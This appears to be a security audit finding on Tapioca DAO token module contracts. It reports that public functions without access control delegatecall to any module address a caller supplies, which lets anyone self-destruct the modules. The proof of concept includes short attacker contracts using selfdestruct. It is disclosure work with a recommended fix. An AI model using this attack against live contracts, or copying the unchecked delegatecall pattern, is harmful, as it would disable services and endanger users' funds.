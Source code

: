## Summary
Self-destruction of `BaseTOFTLeverageModule`, `BaseTOFTStrategyModule`, `BaseTOFTMarketModule`, `BaseTOFTOptionsModule`, `USDOLeverageModule`, `USDOMarketModule`,  `USDOptionsModule` contracts. Complete DoS of omni-chain features of Tapioca OFT tokens.

## Severity

High

High

https://github.com/Tapioca-DAO/tapiocaz-audit/blob/master/contracts/tOFT/modules/BaseTOFTStrategyModule.sol#L152-L162
https://github.com/Tapioca-DAO/tapiocaz-audit/blob/master/contracts/tOFT/modules/BaseTOFTMarketModule.sol#L160-L169
https://github.com/Tapioca-DAO/tapiocaz-audit/blob/master/contracts/tOFT/modules/BaseTOFTOptionsModule.sol#L189-L200
https://github.com/Tapioca-DAO/tapiocaz-audit/blob/master/contracts/tOFT/modules/BaseTOFTLeverageModule.sol#L184-L194
https://github.com/Tapioca-DAO/tapioca-bar-audit/blob/master/contracts/usd0/modules/USDOLeverageModule.sol#L169-L179
https://github.com/Tapioca-DAO/tapioca-bar-audit/blob/master/contracts/usd0/modules/USDOMarketModule.sol#L168-L177
https://github.com/Tapioca-DAO/tapioca-bar-audit/blob/master/contracts/usd0/modules/USDOOptionsModule.sol#L174-L185

## Proof of Concept
All these contracts are module contracts for omni-chain operations like leverage, strategy, market, options. 

Vulnerabiilies come from 2 reasons.
- These module contracts has no access control mechanism in place for important omni-chain related functions.
- These functions delegatecall to any address supplied as `modules` parameter.

For example, a hacker can call `BaseTOFTStrategyModule.strategyDeposit()` passing `modules` as malicious contract with SELFDESTRUCT.

```solidity
contract MaliciousModule Is Ownable {
    function depositToYieldbox() {
        selfdestruct(owner());
    }
}
```

```solidity
contract MaliciousAttacker Is Ownable {
    function attack() {
        BaseTOFTStrategyModule(strategyModule).strategyDeposit(new MaliciousModule(), ...);
    }
}
```
https://github.com/Tapioca-DAO/tapiocaz-audit/blob/master/contracts/tOFT/modules/BaseTOFTStrategyModule.sol#L152-L162
```solidity
    function strategyDeposit(
        address module,
        uint16 _srcChainId,
        bytes memory _srcAddress,
        uint64 _nonce,
        bytes memory _payload,
        IERC20 _erc20
    ) public {
        ...

        (bool success, bytes memory reason) = module.delegatecall(// @audit - might cause self destructions, function should not be public
            abi.encodeWithSelector(
                this.depositToYieldbox.selector,
                assetId,
                amount,
                share,
                _erc20,
                address(this),
                onBehalfOf
            )
        );
```
## Impact
Complete DoS of Omni-chain tokens by destroying leverage, strategy, option, market modules.

## Tools Used
Manual Review

## Recommendation

There should be access control mechanism for omni-chain feature functions.